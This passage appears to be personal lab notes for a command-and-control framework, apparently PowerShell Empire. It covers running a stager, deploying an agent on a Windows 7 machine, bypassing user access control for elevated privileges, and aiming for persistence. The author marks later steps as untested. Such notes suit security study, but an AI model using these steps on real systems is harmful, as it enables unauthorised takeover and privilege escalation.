7. execute
```powershell
execute #executes the stager and listener, at this time, it will give you a bat file
```

--------------------------This point and later will not have been  experimented with yet

*Create Agents*

8. execute the batch file that was produced after downloading it and saving it
    - this will give you a unique identifier
    - an agent to work with

9. lists all the agents
```powershell
agents # lists all the available agents
```

10. rename the agent
```powershell
rename 1HVPYFR8 WIN7 #rename your particular agent to your desired name; the rename command takes two parameters, the first parameter is for the desired agents OLD name and the second parameter is the NEW name you want to replace your agent's name with; in this case we wanted to rename the agent 1HVPYFR8 to WIN7
```

11. interact with your particular agent
```powershell
interact WIN7 #interact with the agent name WIN7
```
    - you can use help to see possible commands with your agent
    - you can use various linux commands as your agent
    - info for additional info about your agent
    - the goal of this is to estabilish persistance
        one of the most important information is the high_integrity which indicates whether your agent has admin privileges or not
        greater value means greater privileges

*Strengthening the Agent*

12. bypass user access control for elevated privileges
```powershell
bypassuac WIN7 #this command takes one parameter: the name of the agent you want to execute with; this command bypasses user access control giving the agent elevated privileges
```
- this will create a NEW agent with elevated privileges

13. rename your NEW agent with elevated privileges
```powershell
rename PY5MW1X9 WIN7AD #rename your particular agent to your desired name; the rename command takes two parameters, the first parameter is for the desired agents OLD name and the second parameter is the NEW name you want to replace your agent's name with; in this case we wanted to rename PY5MW1X9 to WIN7AD
```
- this new agent will have a GREATER privilege than the original agent

14. interact with the NEW agent
```powershell
interact WIN7AD #interact with this new agent with elevated privileges
```
